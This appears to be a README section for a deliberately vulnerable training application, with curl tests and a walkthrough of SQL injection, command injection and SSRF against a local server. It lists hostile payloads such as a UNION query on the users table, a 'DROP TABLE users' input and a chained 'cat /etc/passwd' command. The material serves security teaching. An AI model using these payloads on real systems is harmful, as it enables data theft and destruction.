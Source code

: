 ### Manual Testing Examples

1. **SQL Injection**
   ```bash
   curl "http://localhost:8080/api/user_data?user_id=1%20OR%201=1"
   ```

2. **Command Injection**
   ```bash
   curl -X POST http://localhost:8080/api/execute \
     -H "Content-Type: application/json" \
     -d '{"command": "whoami"}'
   ```

3. **SSRF**
   ```bash
   curl -X POST http://localhost:8080/api/fetch_url \
     -H "Content-Type: application/json" \
     -d '{"url": "http://localhost:8080/api/debug"}'
   ```

## 🔍 Vulnerability Walkthrough

### 1. SQL Injection (A03:2021)

**Objective**: Extract sensitive data from the database

**Steps**:
1. Go to the "Vulnerability Tests" tab
2. In the SQL Injection section, try these payloads:
   - `1 OR 1=1` - Get all data
   - `1 UNION SELECT * FROM users --` - Get user table
   - `1; DROP TABLE users; --` - Drop table (destructive)

**What to Learn**:
- How SQL injection works
- Why parameterized queries are important
- Impact of unauthorized data access

### 2. Command Injection (A03:2021)

**Objective**: Execute system commands

**Steps**:
1. Go to the "Vulnerability Tests" tab
2. In the Command Injection section, try these commands:
   - `whoami` - Check current user
   - `ls -la` - List files
   - `ls -la; cat /etc/passwd` - Multiple commands

**What to Learn**:
- How command injection works
- Importance of input validation
- Dangers of shell=True
